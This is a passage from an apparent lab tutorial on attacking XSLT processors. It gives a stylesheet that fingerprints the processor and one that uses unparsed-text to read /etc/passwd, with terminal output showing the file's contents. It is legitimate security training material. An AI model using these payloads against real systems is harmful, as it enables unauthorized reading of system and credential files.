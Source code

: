 The following file can be used to detect the underlying preprocessor.

#### detection.xsl

Code: xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="html"/>
<xsl:template match="/">
    <h2>XSLT identification</h2>
    <b>Version:</b> <xsl:value-of select="system-property('xsl:version')"/><br/>
    <b>Vendor:</b> <xsl:value-of select="system-property('xsl:vendor')" /><br/>
    <b>Vendor URL:</b><xsl:value-of select="system-property('xsl:vendor-url')" /><br/>
</xsl:template>
</xsl:stylesheet>
```

Let us now run the previous command, but this time, using the detection.xsl file.

#### Transformation through the terminal

  Attacking XSLT

```shell-session
Pangulin@htb[/htb]$ saxonb-xslt -xsl:detection.xsl catalogue.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<h2>XSLT identification</h2><b>Version:</b>2.0<br><b>Vendor:</b>SAXON 9.1.0.8 from Saxonica<br><b>Vendor URL:</b>http://www.saxonica.com/<br>
```

Based on the preprocessor, we can go to the XSLT documentation for this version to identify functions of interest, such as the below.

- `unparsed-text` can be used to read local files.

#### readfile.xsl

Code: xml

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

#### Transformation through the terminal

  Attacking XSLT

```shell-session
Pangulin@htb[/htb]$ saxonb-xslt -xsl:readfile.xsl catalogue.xml

Warning: at xsl:stylesheet on line 1 column 111 of readfile.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
```